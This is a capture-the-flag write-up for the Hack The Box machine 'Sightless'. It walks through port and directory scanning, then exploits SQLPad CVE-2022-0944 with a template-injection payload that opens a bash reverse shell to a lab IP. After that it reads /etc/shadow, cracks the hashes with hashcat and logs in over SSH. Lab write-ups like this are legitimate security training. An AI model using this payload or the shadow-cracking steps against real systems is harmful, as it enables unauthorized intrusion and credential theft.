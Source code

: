 
# Sightless Writeup

**IP:** 10.10.11.32  
**/etc/hosts:** sightless.htb  
**Difficulty:** Easy  
**OS:** Linux

## Recon

I visited the IP address in my browser and was redirected to `sightless.htb`. I added this to my host files and continued inspecting the website. Before diving into that, I started an Nmap scan on the IP address:

```bash
rustscan -a 10.10.11.32 -- -sC -sV -oN nmap
```
I also initiated a directory search using Dirsearch:
```bash
dirsearch -u http://sightless.htb/
```
Next, I opened Burp Suite and started proxying the traffic through it.

Back on the site, I browsed through the content looking for interesting information. I came across a button labeled "SQLPad" that led to a subdomain: `sqlpad.sightless.htb`. I added this subdomain to my host files for further investigation.


![2024-09-08_09-04](https://github.com/user-attachments/assets/924427a2-bb38-4f0e-a53c-1f40bec07277)

 
 During this time my initia scan finished 
nmap result
  
```bash  
  PORT   STATE SERVICE REASON  VERSION
21/tcp open  ftp     syn-ack
| fingerprint-strings: 
|   GenericLines: 
|     220 ProFTPD Server (sightless.htb FTP Server) [::ffff:10.10.11.32]
|     Invalid command: try being more creative
|_    Invalid command: try being more creative
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  ftp
| ssl-cert: Subject: commonName=sightless.htb/organizationName=Internet Widgits Pty Ltd/stateOrProvinceName=Some-State/countryName=US
| Issuer: commonName=sightless.htb/organizationName=Internet Widgits Pty Ltd/stateOrProvinceName=Some-State/countryName=US
| Public Key type: ec
| Public Key bits: 521
| Signature Algorithm: ecdsa-with-SHA256
| Not valid before: 2024-05-15T18:55:27
| Not valid after:  2034-05-13T18:55:27
| MD5:   45b3 063e 4c40 65b0 8e95 b42a 1415 6ee2
| SHA-1: a14b 9593 0acf 15cd dd52 68ed db5b 92ed f0f3 3c69
| -----BEGIN CERTIFICATE-----
| MIICljCCAfigAwIBAgIUGXwUUI02BlpNCIZ+e1D647P7ubswCgYIKoZIzj0EAwIw
| XTELMAkGA1UEBhMCVVMxEzARBgNVBAgMClNvbWUtU3RhdGUxITAfBgNVBAoMGElu
| dGVybmV0IFdpZGdpdHMgUHR5IEx0ZDEWMBQGA1UEAwwNc2lnaHRsZXNzLmh0YjAe
| Fw0yNDA1MTUxODU1MjdaFw0zNDA1MTMxODU1MjdaMF0xCzAJBgNVBAYTAlVTMRMw
| EQYDVQQIDApTb21lLVN0YXRlMSEwHwYDVQQKDBhJbnRlcm5ldCBXaWRnaXRzIFB0
| eSBMdGQxFjAUBgNVBAMMDXNpZ2h0bGVzcy5odGIwgZswEAYHKoZIzj0CAQYFK4EE
| ACMDgYYABAEEHbLtjQhs5zp9AEzvBo1Ccv45RD1jcHkJMf8YljHfS3N/HBfwPnBm
| 2eZ/rlAaUnz61w9Qlh6jB4oYI3D6YgG/MACv1SwCWDr1GMu8BGBWNDZbr+9L/n/q
| 5v73kVM/idWblfWrJUkNOq71RGmcxth1pUQKwE5Cv6bUIfe3FM6nRUuoSqNTMFEw
| HQYDVR0OBBYEFIK1f/mkHmlvDa/2If2Rn3lFyeY6MB8GA1UdIwQYMBaAFIK1f/mk
| HmlvDa/2If2Rn3lFyeY6MA8GA1UdEwEB/wQFMAMBAf8wCgYIKoZIzj0EAwIDgYsA
| MIGHAkFMZHZex+fVSUV1UKn6OqQ3Lj6vOv737HE5q6GRVN8MDfrUCokBY4SolaG0
| lN5Jql5wknndFnaW5HxcPvU2G8JVygJCASuklQ/e+4wLGgH94pyF3/YyhXGLiAZB
| btCMnLv7bIv9fKn8EiE1Bg7GXlHMAoOpLkMmdkTq517NDVgdSpawcrx9
|_-----END CERTIFICATE-----
| tls-nextprotoneg: 
|_  ftp
22/tcp open  ssh     syn-ack OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 c9:6e:3b:8f:c6:03:29:05:e5:a0:ca:00:90:c9:5c:52 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBGoivagBalUNqQKPAE2WFpkFMj+vKwO9D3RiUUxsnkBNKXp5ql1R+kvjG89Iknc24EDKuRWDzEivKXYrZJE9fxg=
|   256 9b:de:3a:27:77:3b:1b:e1:19:5f:16:11:be:70:e0:56 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIA4BBc5R8qY5gFPDOqODeLBteW5rxF+qR5j36q9mO+bu
80/tcp open  http    syn-ack nginx 1.18.0 (Ubuntu)
|_http-title: Sightless.htb
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-server-header: nginx/1.18.0 (Ubuntu)
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port21-TCP:V=7.92%I=7%D=9/8%Time=66DD5C85%P=x86_64-pc-linux-gnu%r(Gener
SF:icLines,A0,"220\x20ProFTPD\x20Server\x20\(sightless\.htb\x20FTP\x20Serv
SF:er\)\x20\[::ffff:10\.10\.11\.32\]\r\n500\x20Invalid\x20command:\x20try\
SF:x20being\x20more\x20creative\r\n500\x20Invalid\x20command:\x20try\x20be
SF:ing\x20more\x20creative\r\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
port 21 is open which is for ftp, i tried anonymous login which didnt work, i'll come back to this later

### dirsearch result
Dirsearch revealed a directory:
  ```bash
dirsearch -u http://sightless.htb/

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25
Wordlist size: 11460

Output File: /home/mofe/files/htb/sightless/reports/http_sightless.htb/__24-09-08_09-13-46.txt

Target: http://sightless.htb/

[09:13:46] Starting:                                                             
[09:16:11] 403 -  564B  - /images/                                          
[09:16:11] 301 -  178B  - /images  ->  http://sightless.htb/images/         
                                                                             
Task Completed  
```
The /images directory returned a "403 Forbidden" response.

## SQLPad Exploitation

On the `sqlpad.sightless.htb` page, I encountered a web application called SQLPad. According to the documentation, SQLPad is a web app for writing and running SQL queries and visualizing the results. It supports various drivers such as Postgres, MySQL, SQL Server, and many others via ODBC. You can refer to the documentation [here](https://getsqlpad.com/en/connections/).

I looked up known vulnerabilities and found CVE-2022-0944, which describes a critical vulnerability in SQLPad versions up to 6.10.0. This vulnerability is due to an injection flaw classified as CWE-74 (Improper Neutralization of Special Elements used in a Command). The issue arises from SQLPad’s failure to properly neutralize special characters in input that influences command construction, potentially leading to unintended command execution or data manipulation. More details can be found [here](https://vuldb.com/?id.194925).

### Exploitation

I spent some time trying to understand and exploit this vulnerability. After some trial and error with various payloads, several internal server error 500, i finally got ont that worked


![2024-09-08_11-33](https://github.com/user-attachments/assets/31ef9a93-42e5-4b1a-b032-588cb82b7ab0)


1. **Create a New Connection:**
   - **Name:** `test`
   - **Driver:** `mysql`
   - **Database Name Field:** This is the field where we need to inject the payload.

2. **Payload:**
   - Use the following payload in the database name field:
     ```plaintext
     {{ process.mainModule.require('child_process').exec('/bin/bash -c "bash -i >& /dev/tcp/10.10.14.19/4444 0>&1"') }}
     ```
   - Replace `10.10.14.19` with your own IP address.

3. **Setup Listener:**
   - Set up a listener on your machine to catch the reverse shell.

4. **Test the Connection:**
   - Click on the "Test" button to trigger the payload.

After setting up the listener and testing the connection, I received a reverse shell on my listener.



## Initial Discovery

Gained shell access as root and quickly realized the environment was a Docker container. Not what was expected for an easy box.

## Discovering Other Users

Noticed there were other users on the host: `micheal` and `node`. With root access, checked out `/etc/shadow` and saw that `node` didn’t have a password (`!`),.

## Cracking Passwords

Copied the root and `micheal` user hashes from `/etc/shadow`. Used `hashcat` to crack the passwords:

```bash
hashcat -m 1800 hash ~/tools/rockyou.txt
```
A few minutes later, both passwords were cracked. 


![2024-09-08_12-03](https://github.com/user-attachments/assets/fe499622-4578-4e18-b5a9-1e87128a3acd)

Tried micheal's password with SSH to 10.10.11.32:
This worked and got access outside the Docker container. Found the user.txt flag.




